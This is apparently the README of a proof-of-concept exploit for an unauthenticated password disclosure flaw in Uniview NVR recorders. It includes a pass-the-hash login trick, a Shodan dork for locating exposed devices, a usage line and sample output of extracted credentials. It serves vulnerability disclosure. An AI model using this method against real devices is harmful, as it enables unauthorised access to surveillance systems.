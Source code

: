 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
NVR304-16E - Software Version B3118P26C00510
NVR301-08-P8 - Software Version B3218P26C00512
- version B3220P11
- version B3219P22

 Other versions may also be affected

> Sodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

	root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
	Uniview NVR remote passwords disclosure!
	Author: B1t0n
	
	[+] Getting model name and software version...
		Model: NVR301-08-P8
 		Software Version: B3218P26C00512

 	[+] Getting configuration file...
 	[+] Number of users found: 4

 	[+] Extracting users' hashes and decoding reversible strings:

 	User 	|	 Hash 	|	 Password
 	_________________________________________________
 	admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 	default 	|	 	|	||||||||||||||||||||
 	HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 	test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  	*Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely

